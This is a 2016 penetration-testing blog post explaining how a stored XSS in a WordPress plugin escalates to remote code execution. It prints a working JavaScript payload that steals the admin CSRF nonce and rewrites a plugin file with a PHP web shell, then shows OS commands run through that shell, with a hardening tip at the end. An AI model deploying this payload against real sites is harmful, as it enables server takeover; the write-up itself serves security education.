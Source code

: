 ```yaml
---
title: "XSS to RCE – using WordPress as an example"
date: 2016-07-17
categories:
- xss
- rce
- wordpress
- poc
tags:
- webshell
- wordpress
- poc

thumbnailImagePosition: left
thumbnailImage: /img/xss-to-rce-using-wordpress-as-an-example/1.png
---
```


A real world example of how an XSS in the administration portal of a WordPress instance can lead to an RCE by uploading a webshell using the XSS.

<!--more-->

## Introduction

Cross Site Scripting (XSS) is a type of client side vulnerability that arises when an application accepts user supplied input and makes it a part of the page without sanitizing it for malicious content. An attacker can supply JavaScript as input that eventually becomes a part of the page and executes in the browser of the user viewing the page. You can read more about the different types of [XSS vulnerabilities at the OWASP wiki](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)).

Most vulnerability assessments report XSS issues with the impact limited to stealing session cookies and hijacking accounts. In reality, a well executed XSS attack can cause a lot more harm than merely overtaking an account. Of course it depends on what other vulnerabilities are present in the application in the post login pages. Also, depending on the privileges of the user whose session was hijacked, added functionality may be available ready for abuse.

## Other interesting cases

There have been several well documented cases of a XSS leading to larger more impactful attacks. Here are some examples

1. XSS worm by Samy: - https://samy.pl/popular/tech.html
2. Apache network compromise starting with a XSS in Atlassian JIRA: - https://blogs.apache.org/infra/entry/apache_org_04_09_2010
3. XSS to RCE in Node via process.open() - https://oreoshake.github.io/xss/rce/bugbounty/2015/09/08/xss-to-rce.html

## The attack steps

In a standard XSS attack, a penetration tester would usually take the following steps

1. Find a XSS vulnerability
2. Host a collecting server to capture session cookies that will be delivered by your XSS payload
3. Send the URL with the XSS payload to a user via email (Reflected XSS) OR Store the XSS payload and wait for a user (or social engineer them to visit if you lack patience) to visit the vulnerable page
4. Replay the session cookies to the application and gain access to the victim’s account.
5. Explore the application for data/other vulnerabilities.

In the event that an application has functionality that allows a user to upload executable code (php pages for example) or edit existing server side code, then you can choose to attack that functionality directly with a XSS payload. [Akash Mahajan](https://twitter.com/makash), my friend and partner at [Appsecco](https://appsecco.com/), pointed out a tweet by [@brutelogic](https://twitter.com/brutelogic/status/752111662254227456) which, in my opinion, is a fantastic JavaScript XSS payload to use the plugin-editor of WordPress to update an existing PHP page with shellcode. 

So I setup a local WP with a [plugin that was vulnerable to XSS](https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html) and used the following JS payload as mentioned in the tweet.

```javascript
x=new XMLHttpRequest()
p='/wp-admin/plugin-editor.php?'
f='file=akismet/index.php'
x.open('GET',p+f,0)
x.send()
$='_wpnonce='+/ce" value="([^"]*?)"/.exec(x.responseText)[1]+'&newcontent=<?=`$_GET[brute]`;&action=update&'+f
x.open('POST',p+f,1)
x.setRequestHeader('Content-Type','application/x-www-form-urlencoded')
x.send($)
```

Here’s what the payload does

1. Creates a new `XMLHttpRequest()` object `x`
2. `p` and `f` hold the complete URL to load
3The file that will be updated is `akismet/index.php`
4. `x.open('GET',p+f,0)` and `x.send()` are used to specify the type of request and to send the actual request respectively
5. The `$` contains the POST data that will be sent
6. For every POST request in WordPress you need the `_wpnonce` token. The `/ce" value="([^"]*?)"/.exec(x.responseText)[1]` extracts the csrf token from the previous response using a regular expression
7. The php shell code is ``<?=`$_GET[brute]`;``
8. A new POST request is created and sent to the server along with appropriate form submit headers.

If an admin navigates to `/wp-admin/plugin-editor.php?file=akismet/index.php`, this is what they will see

![](/img/xss-to-rce-using-wordpress-as-an-example/1.png)

To access the shell, navigate to `/wp-content/plugins/akismet/index.php?brute=ls -a`. You can now interact and execute operating system commands with the WordPress server using the brute parameter. To make the output more readable simply use the view-source option of the page.

![](/img/xss-to-rce-using-wordpress-as-an-example/2.png)

This attack will obviously not work if the plugin editor is disabled which can be done by placing `define('DISALLOW_FILE_EDIT', true);` in the `wp-config.php` file. You can read more WordPress hardening tips at https://codex.wordpress.org/Hardening_WordPress (shouts to [@anantshri](https://twitter.com/anantshri)).

Happy Hacking!

---
